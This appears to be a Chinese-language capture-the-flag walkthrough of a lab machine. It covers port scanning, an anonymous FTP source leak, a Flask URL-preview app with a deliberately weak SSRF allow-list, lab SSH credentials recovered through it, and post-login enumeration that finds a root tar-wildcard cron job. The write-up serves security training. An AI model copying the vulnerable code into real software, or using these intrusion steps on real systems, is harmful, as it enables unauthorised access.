


# recon
:::info
Volt Labs, a small SaaS shop, suspects an old staging server has rotted into an exposed liability. Mara has assigned you the engagement. Find your way in and demonstrate full compromise.
:::

这应该是 operation 系列的第一台靶机, NMAP 结果如下:
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.64.97.72
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 May 09 23:14 pub
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 50:3e:ff:e9:a7:26:38:1a:e1:f3:11:d3:bc:0a:f4:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEUO7nRdm5U72vYPYT4ldCwwRm3HrS9SI2QDt0RDtxpjgtImELhfOc7fbsJdNPTUkP3uZ2UbxDfhaPVJUzrzVZA=
|   256 f1:59:51:7d:02:fe:b5:61:d7:19:0a:ab:0a:79:c1:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK40zkK0WFTd0R/4gjM3tX+33Ld8HgzxbHcR2+2e+jQR
80/tcp open  http    syn-ack ttl 64 gunicorn
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 13 Sep 2026 01:37:56 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 13 Sep 2026 01:37:51 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2943
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>URL Preview - Volt Labs</title>
|     <style>
|     :root{--primary:#0d6efd;--bg:#f6f8fa;--card:#fff;--text:#212529;--muted:#6c757d;--border:#dee2e6}
|     *{box-sizing:border-box}
|     body{margin:0;font-family:-apple-system,BlinkMacSystemFont,"Segoe UI",Roboto,"Helvetica Neue",Arial,sans-serif;font-size:16px;line-height:1.5;color:var(--text);background:var(--bg)}
|     a{color:var(--primary);text-decoration:none}
|     a:hover{text-decoration:underline}
|     .navbar{background:#212529;color:#fff;padding:.75rem 1.5rem;display:flex;align-items:center;justify-content:space-between;box-shadow:0 1px 3px rgba(0,0,0,.08)}
|     .navbar .brand{font-w
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 13 Sep 2026 01:37:51 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: URL Preview - Volt Labs
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=9/13%Time=6AA5FE6F%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,C1A,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x
SF:20Sun,\x2013\x20Sep\x202026\x2001:37:51\x20GMT\r\nConnection:\x20close\
SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
SF:943\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20
SF:charset=\"utf-8\">\n<meta\x20name=\"viewport\"\x20content=\"width=devic
SF:e-width,\x20initial-scale=1\">\n<title>URL\x20Preview\x20-\x20Volt\x20L
SF:abs</title>\n<style>\n:root{--primary:#0d6efd;--bg:#f6f8fa;--card:#fff;
SF:--text:#212529;--muted:#6c757d;--border:#dee2e6}\n\*{box-sizing:border-
SF:box}\nbody{margin:0;font-family:-apple-system,BlinkMacSystemFont,\"Sego
SF:e\x20UI\",Roboto,\"Helvetica\x20Neue\",Arial,sans-serif;font-size:16px;
SF:line-height:1\.5;color:var\(--text\);background:var\(--bg\)}\na{color:v
SF:ar\(--primary\);text-decoration:none}\na:hover{text-decoration:underlin
SF:e}\n\.navbar{background:#212529;color:#fff;padding:\.75rem\x201\.5rem;d
SF:isplay:flex;align-items:center;justify-content:space-between;box-shadow
SF::0\x201px\x203px\x20rgba\(0,0,0,\.08\)}\n\.navbar\x20\.brand{font-w")%r
SF:(HTTPOptions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
SF:\x20Sun,\x2013\x20Sep\x202026\x2001:37:51\x20GMT\r\nConnection:\x20clos
SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20
SF:OPTIONS,\x20HEAD\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Ty
SF:pe:\x20text/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head
SF:>\n\x20\x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20
SF:\x20<body>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x2
SF:0\x20Invalid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x2
SF:0&#x27;RTSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFour
SF:Request,170,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\
SF:nDate:\x20Sun,\x2013\x20Sep\x202026\x2001:37:56\x20GMT\r\nConnection:\x
SF:20close\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Leng
SF:th:\x20207\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\n<title>404\x20
SF:Not\x20Found</title>\n<h1>Not\x20Found</h1>\n<p>The\x20requested\x20URL
SF:\x20was\x20not\x20found\x20on\x20the\x20server\.\x20If\x20you\x20entere
SF:d\x20the\x20URL\x20manually\x20please\x20check\x20your\x20spelling\x20a
SF:nd\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
开放 `21`,`22`,`80` 三个端口. TTL 均为 64, 与 Linux 一跳后预期吻合.

## ftp
尝试 anonymous 登陆:
```sh
root@ip-10-64-97-72:~# ftp 10.64.188.6
Connected to 10.64.188.6.
220 (vsFTPd 3.0.5)
Name (10.64.188.6:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40015|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 May 09 23:14 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||40058|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          2446 May 09 23:14 backup.tar.gz
226 Directory send OK.
ftp> get backup.tar.gz
local: backup.tar.gz remote: backup.tar.gz
229 Entering Extended Passive Mode (|||40040|)
150 Opening BINARY mode data connection for backup.tar.gz (2446 bytes).
100% |**********************************************************************************************************************************************************************************|  2446       15.34 MiB/s    00:00 ETA
226 Transfer complete.
2446 bytes received in 00:00 (4.02 MiB/s)
ftp> 
```

有一个压缩包, 没有密码, 打开后是预览版本的网页源代码
```sh
root@ip-10-64-97-72:~/wrk# tar -xzf ./backup.tar.gz 
root@ip-10-64-97-72:~/wrk# ls
backup.tar.gz  svc  voltlabs-preview
root@ip-10-64-97-72:~/wrk# cd voltlabs-preview/
root@ip-10-64-97-72:~/wrk/voltlabs-preview# ls
README.md  app.py  requirements.txt
```

# Web
很精简的 web 页面, 一个 url 预览功能:


目录爆破:
```sh
root@ip-10-64-97-72:~# dirserach -u dirsearch -u 10.64.188.6 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -o ./url

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 43003

Output File: ./url

Target: http://10.64.188.6/

[01:53:02] Starting: 
[01:53:02] 308 -  237B  - /admin  ->  http://10.64.188.6/admin/
[01:53:06] 400 -    2KB - /preview
```

共两个路由:
1. `/admin`: 管理界面, 但无权访问
2. `/preview`: 图片中的 preview 功能

## techstack
```http
HTTP/1.0 200 OK
Server: gunicorn
Date: Sun, 13 Sep 2026 01:37:51 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 2943
```

Server 显示 gunicorn, 其是一个 python 的 HTTP Server, 即目标 Web 环境为 Python
::github{repo="benoitc/gunicorn"}

gunicorn 具有反代功能, 但没有在当前页面上体现出来
## code analyse
:::code-tree{title="codeleak" height="380px" entry="src/Button.svelte"}
```markdown title="voltlabs-preview/README.md"
# Volt Labs URL Preview

Internal staging tool. Run with `gunicorn -b 0.0.0.0:80 app:app`.

Admin routes are gated by source-IP check (localhost only).
```

```python title="voltlabs-preview/app.py"
from flask import Flask, request, abort
from urllib.parse import urlparse
import html
import requests

app = Flask(__name__)

# Only requests targeting an approved internal hostname are forwarded.
# Internal hostname resolves to 127.0.0.1 via /etc/hosts on this box.
ALLOWED_HOSTS = {"kestrel.thm"}

CSS = """
<style>
:root{--primary:#0d6efd;--bg:#f6f8fa;--card:#fff;--text:#212529;--muted:#6c757d;--border:#dee2e6}
*{box-sizing:border-box}
body{margin:0;font-family:-apple-system,BlinkMacSystemFont,"Segoe UI",Roboto,"Helvetica Neue",Arial,sans-serif;font-size:16px;line-height:1.5;color:var(--text);background:var(--bg)}
a{color:var(--primary);text-decoration:none}
a:hover{text-decoration:underline}
.navbar{background:#212529;color:#fff;padding:.75rem 1.5rem;display:flex;align-items:center;justify-content:space-between;box-shadow:0 1px 3px rgba(0,0,0,.08)}
.navbar .brand{font-weight:600;font-size:1.125rem;letter-spacing:.2px}
.navbar .muted-light{color:#a5acb3;font-size:.95rem}
.container{max-width:960px;margin:2rem auto;padding:0 1rem}
.card{background:var(--card);border:1px solid var(--border);border-radius:.5rem;padding:1.5rem;margin-bottom:1.25rem;box-shadow:0 1px 2px rgba(0,0,0,.04)}
h1{font-size:1.75rem;margin:0 0 .75rem}
h2{font-size:1.25rem;margin:1.25rem 0 .5rem}
.muted{color:var(--muted);font-size:.95rem}
.form-group{margin-bottom:1rem}
label{display:block;margin-bottom:.25rem;font-weight:500;font-size:.95rem}
.form-control{display:block;width:100%;padding:.5rem .75rem;font-size:1rem;line-height:1.5;color:var(--text);background:#fff;border:1px solid var(--border);border-radius:.375rem;transition:border-color .15s,box-shadow .15s}
.form-control:focus{outline:0;border-color:#86b7fe;box-shadow:0 0 0 .2rem rgba(13,110,253,.25)}
.btn{display:inline-block;padding:.5rem 1rem;font-size:1rem;font-weight:500;border:1px solid transparent;border-radius:.375rem;cursor:pointer;transition:background .15s}
.btn-primary{background:var(--primary);color:#fff}
.btn-primary:hover{background:#0b5ed7}
pre{background:#f1f3f5;border:1px solid var(--border);border-radius:.375rem;padding:.75rem;overflow:auto;font-size:.9rem;white-space:pre-wrap;word-break:break-word}
footer.site{text-align:center;color:var(--muted);margin:2rem 0;font-size:.875rem}
</style>
"""

def page(title, body):
    return f"""<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>{title} - Volt Labs</title>{CSS}</head>
<body>
<nav class="navbar">
    <span class="brand">Volt Labs</span>
    <span class="muted-light">URL Preview Service &middot; staging</span>
</nav>
<main class="container">{body}</main>
<footer class="site">&copy; Volt Labs &middot; do not expose externally</footer>
</body>
</html>"""

@app.route("/")
def index():
    body = """
    <div class="card">
        <h1>URL Preview Service</h1>
        <p class="muted">Internal tool. Paste a URL below to preview its contents.</p>
        <form method="get" action="/preview">
            <div class="form-group">
                <label for="url">URL</label>
                <input id="url" type="text" name="url" class="form-control" placeholder="https://example.com/" required>
            </div>
            <button type="submit" class="btn btn-primary">Preview</button>
        </form>
    </div>
    """
    return page("URL Preview", body)

@app.route("/preview")
def preview():
    target = request.args.get("url", "")
    if not target:
        return page("Preview Error",
                    '<div class="card"><p>Provide a <code>?url=</code> parameter.</p></div>'), 400

    # VULN: hostname allow-list is the only check. No scheme check, no path check,
    # no localhost-rebind protection - the SSRF is still abusable, but only
    # against the allowed hostname.
    host = (urlparse(target).hostname or "").lower()
    if host not in ALLOWED_HOSTS:
        return page("Preview Blocked",
                    '<div class="card"><p>Host not in the approved internal allow-list.</p></div>'), 403

    try:
        r = requests.get(target, timeout=3)
        safe_target = html.escape(target)
        safe_body = r.text.replace("<", "&lt;")
        body = f"""
        <div class="card">
            <h2>Preview of {safe_target}</h2>
            <pre>{safe_body}</pre>
        </div>
        """
        return page("Preview", body)
    except Exception as e:
        safe_err = html.escape(str(e))
        return page("Preview Failed",
                    f'<div class="card"><p>Fetch failed: {safe_err}</p></div>'), 502

@app.route("/admin/")
@app.route("/admin/<path:p>")
def admin(p="index"):
    if not request.remote_addr.startswith("127."):
        abort(403)
    if p == "notes":
        with open("/opt/voltlabs-preview/admin_notes.txt") as f:
            return "<pre>" + f.read() + "</pre>"
    return "<pre>Volt Labs admin endpoint.</pre>"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```

```txt title="requirements.txt"
flask
requests
gunicorn
```
:::

### `/preview`
接受一个 `url` 参数, 通过 `requests.get(target, timeout=3)` 访问并获取, 仅容许访问 `kestrel.thm`, 但其会被解析为 `127.0.0.1`

### `/admin`
仅容许 `127.*` 访问, 如果参数为 `notes`, 那打开 `/opt/voltlabs-preview/admin_notes.txt` 文件并给出内容

## SSRF on `/preview`

得到笔记内容:
```txt
<pre>=== INTERNAL ===
SSH access for staging:
  user: webdev
  pass: V0ltLabs#summer
- Mara
</pre>
```

一组凭据: `webdev`: `V0ltLabs#summer`

# shell as webdev
ssh 要求提供密码的页面有些奇怪:
```sh
root@ip-10-64-97-72:~# ssh webdev@10.64.188.6
(webdev@10.64.188.6) Password:
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.17.0-1015-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Sep 13 02:13:52 UTC 2026

  System load:  0.0               Temperature:           -273.1 C
  Usage of /:   9.3% of 38.70GB   Processes:             113
  Memory usage: 17%               Users logged in:       0
  Swap usage:   0%                IPv4 address for ens5: 10.64.188.6

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

webdev@coldstart:~$ 
```

当连续三次输错密码后, ssh 会给出另一个密码输入提示而不是断开连接:
```sh
(webdav@10.64.188.6) Password: 
(webdav@10.64.188.6) Password: 
(webdav@10.64.188.6) Password: 
webdav@10.64.188.6's password: 
Permission denied, please try again.
webdav@10.64.188.6's password: 
Permission denied, please try again.
webdav@10.64.188.6's password:'
```

## enum

如果只是怼到一起有些乱
:::steps[enum]
1. **webdevs priv and env**
    用户的权限情况
    ```sh
    webdev@coldstart:~$ id
    uid=1001(webdev) gid=1001(webdev) groups=1001(webdev)
    webdev@coldstart:~$ groups
    webdev
    webdev@coldstart:~$ env
    SHELL=/bin/bash
    PWD=/home/webdev
    LOGNAME=webdev
    XDG_SESSION_TYPE=tty
    HOME=/home/webdev
    LANG=C.UTF-8
    LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=00:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.avif=01;35:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.webp=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:*~=00;90:*#=00;90:*.bak=00;90:*.crdownload=00;90:*.dpkg-dist=00;90:*.dpkg-new=00;90:*.dpkg-old=00;90:*.dpkg-tmp=00;90:*.old=00;90:*.orig=00;90:*.part=00;90:*.rej=00;90:*.rpmnew=00;90:*.rpmorig=00;90:*.rpmsave=00;90:*.swp=00;90:*.tmp=00;90:*.ucf-dist=00;90:*.ucf-new=00;90:*.ucf-old=00;90:
    SSH_CONNECTION=10.64.97.72 40908 10.64.188.6 22
    LESSCLOSE=/usr/bin/lesspipe %s %s
    XDG_SESSION_CLASS=user
    TERM=xterm-256color
    LESSOPEN=| /usr/bin/lesspipe %s
    USER=webdev
    SHLVL=1
    XDG_SESSION_ID=46
    XDG_RUNTIME_DIR=/run/user/1001
    SSH_CLIENT=10.64.97.72 40908 22
    XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
    DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1001/bus
    SSH_TTY=/dev/pts/0
    _=/usr/bin/env
    ```

    *sudo*: 没有 sudo 权限
    ```sh
    webdev@coldstart:~$ sudo -l
    [sudo] password for webdev: 
    Sorry, user webdev may not run sudo on coldstart.
    ```

    *writeable*:
    ```sh
    webdev@coldstart:~$ find / -writable -ls 2>/dev/null|grep -v home|grep -v proc|grep -v snap|grep dev|grep -v sys|grep -v '/dev'|grep -v run
    524667      4 drwxrwx---   2 webdev           webdev               4096 May  9 23:14 /opt/backups
    524668      4 -rw-r--r--   1 webdev           webdev                 12 May  9 23:14 /opt/backups/.keep
    ```

2. **machine info**
    *Users*:
    ```sh
    webdev@coldstart:~$ cat /etc/passwd|grep 'sh$'
    root:x:0:0:root:/root:/bin/bash
    ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
    webdev:x:1001:1001::/home/webdev:/bin/bash
    ```
    除去 webdev 还有一个有 bash 设置的非 root 用户

    *conrtab*
    ```sh
    webdev@coldstart:~$ cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.

    SHELL=/bin/sh
    # You can also override PATH, but by default, newer versions inherit it from the environment
    #PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

    # Example of job definition:
    # .---------------- minute (0 - 59)
    # |  .------------- hour (0 - 23)
    # |  |  .---------- day of month (1 - 31)
    # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
    # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
    # |  |  |  |  |
    # *  *  *  *  * user-name command to be executed
    17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
    47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
    52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
    #
    webdev@coldstart:~$ ls /etc/cron*
    /etc/crontab
    /etc/cron.d:
    e2scrub_all  sysstat  voltlabs-backup
    /etc/cron.daily:
    apport  apt-compat  bsdmainutils.dpkg-remove  dpkg  logrotate  man-db  sysstat
    /etc/cron.hourly:
    /etc/cron.monthly:
    /etc/cron.weekly:
    man-db
    /etc/cron.yearly:
    ```

    有一个有趣的计划任务: `voltlabs-backup`, 以 root 权限每分钟执行的计划任务
    ```sh
    webdev@coldstart:~$ cat  /etc/cron.d/voltlabs-backup 
    # Volt Labs staging backup - runs as root
    SHELL=/bin/bash
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

   * * * * * root cd /opt/backups && tar czf /var/backups/uploads.tgz *
    ```


    *Service-Timer*: 没啥有趣的
    ```sh
    webdev@coldstart:~$ systemctl list-timers
    NEXT                            LEFT LAST                             PASSED UNIT                           ACTIVATES                       
    Sun 2026-09-13 02:51:44 UTC    13min Wed 2026-05-20 09:47:01 UTC           - fstrim.timer                   fstrim.service
    Sun 2026-09-13 03:10:57 UTC    32min Sun 2026-09-13 01:32:58 UTC 1h 5min ago e2scrub_all.timer              e2scrub_all.service
    Sun 2026-09-13 05:04:31 UTC 2h 26min Thu 2026-05-14 01:50:51 UTC           - apt-daily.timer                apt-daily.service
    Sun 2026-09-13 06:14:28 UTC 3h 36min Sun 2026-09-13 02:27:26 UTC   10min ago apt-daily-upgrade.timer        apt-daily-upgrade.service
    Sun 2026-09-13 08:15:50 UTC 5h 37min Wed 2026-05-13 10:40:01 UTC           - man-db.timer                   man-db.service
    Sun 2026-09-13 10:47:38 UTC       8h Thu 2026-05-14 03:34:46 UTC           - motd-news.timer                motd-news.service
    Mon 2026-09-14 00:00:00 UTC      21h Sun 2026-09-13 01:32:48 UTC 1h 5min ago dpkg-db-backup.timer           dpkg-db-backup.service
    Mon 2026-09-14 00:00:00 UTC      21h Sun 2026-09-13 01:32:48 UTC 1h 5min ago logrotate.timer                logrotate.service
    Mon 2026-09-14 01:37:40 UTC      22h Sun 2026-09-13 01:37:40 UTC 1h 0min ago update-notifier-download.timer update-notifier-download.service
    Mon 2026-09-14 01:47:40 UTC      23h Sun 2026-09-13 01:47:40 UTC   50min ago systemd-tmpfiles-clean.timer   systemd-tmpfiles-clean.service
    Sat 2026-09-19 21:14:50 UTC   6 days Wed 2026-05-13 09:25:51 UTC           - update-notifier-motd.timer     update-notifier-motd.service

    11 timers listed.
    Pass --all to see loaded but inactive timers, too.
    ```

    *process*: 也没啥有趣的
    ```sh
    voltapp      714     613  0 01:32 ?        00:00:22 /opt/voltlabs-preview/venv/bin/python3 /opt/voltlabs-preview/venv/bin/gunicorn -w 2 -b 0.0.0.0:80 app:app
    voltapp      721     613  0 01:32 ?        00:00:22 /opt/voltlabs-preview/venv/bin/python3 /opt/voltlabs-preview/venv/bin/gunicorn -w 2 -b 0.0.0.0:80 app:app
    ```

3. **Network**
    本机的网络设置:
    ```sh
    webdev@coldstart:~$ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
           valid_lft forever preferred_lft forever
        inet6 ::1/128 scope host noprefixroute 
           valid_lft forever preferred_lft forever
    2: ens5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc mq state UP group default qlen 1000
        link/ether 0a:ff:dd:e8:6a:fd brd ff:ff:ff:ff:ff:ff
        altname enp0s5
        inet 10.64.188.6/18 metric 100 brd 10.64.191.255 scope global dynamic ens5
          valid_lft 2083sec preferred_lft 2083sec
        inet6 fe80::8ff:ddff:fee8:6afd/64 scope link 
          valid_lft forever preferred_lft forever
    webdev@coldstart:~$ ss -lntp
    State                     Recv-Q                     Send-Q                                         Local Address:Port                                         Peer Address:Port                    Process                    
    LISTEN                    0                          4096                                              127.0.0.54:53                                                0.0.0.0:*                                                  
    LISTEN                    0                          4096                                                 0.0.0.0:22                                                0.0.0.0:*                                                  
    LISTEN                    0                          32                                                   0.0.0.0:21                                                0.0.0.0:*                                                  
    LISTEN                    0                          4096                                           127.0.0.53%lo:53                                                0.0.0.0:*                                                  
    LISTEN                    0                          2048                                                 0.0.0.0:80                                                0.0.0.0:*                                                  
    LISTEN                    0                          4096                                                    [::]:22                                                   [::]:*                                                  
    ```
    就一张网卡, 没有有趣的内部端口

4. **privfile**
    *Suid*: 没啥有趣的.
    ```sh
    webdev@coldstart:~$ find / -type f -perm -04000 -ls 2>/dev/null 
    14580     36 -rwsr-xr--   1 root     messagebus         34960 Aug  9  2024 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    18107    336 -rwsr-xr-x   1 root     root              342632 Apr 28 00:29 /usr/lib/openssh/ssh-keysign
   518279     20 -rwsr-xr-x   1 root     root               18736 Apr 10 10:57 /usr/lib/polkit-1/polkit-agent-helper-1
     4587     72 -rwsr-xr-x   1 root     root               72792 May 30  2024 /usr/bin/chfn
     8485    272 -rwsr-xr-x   1 root     root              277936 Mar  2  2026 /usr/bin/sudo
     9153     40 -rwsr-xr-x   1 root     root               39296 Mar  6  2026 /usr/bin/umount
     4695     64 -rwsr-xr-x   1 root     root               64152 May 30  2024 /usr/bin/passwd
     4679     76 -rwsr-xr-x   1 root     root               76248 May 30  2024 /usr/bin/gpasswd
     1573     40 -rwsr-xr-x   1 root     root               40664 May 30  2024 /usr/bin/newgrp
